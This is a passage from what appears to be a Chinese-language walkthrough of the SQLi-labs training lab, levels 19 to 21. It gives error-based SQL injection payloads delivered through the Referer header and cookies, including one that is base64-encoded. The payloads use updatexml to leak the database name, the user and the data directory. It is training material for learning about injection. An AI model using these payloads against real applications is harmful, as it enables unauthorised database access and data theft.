 ## 第十九题-Referer

1'and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1) or '

![image-20240405122235449](PictureFile/SqliLabs通关.assets/image-20240405122235449.png)

## 第二十题-Cookie注入

1'and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)-- s

![image-20240405122905005](PictureFile/SqliLabs通关.assets/image-20240405122905005.png)

## 第二十一题-Cookie注入

和上一题一样，不过被base64编码后又进行url编码

MSdhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSwweDdlLHVzZXIoKSwweDdlLEBAZGF0YWRpciksMSktLSBz
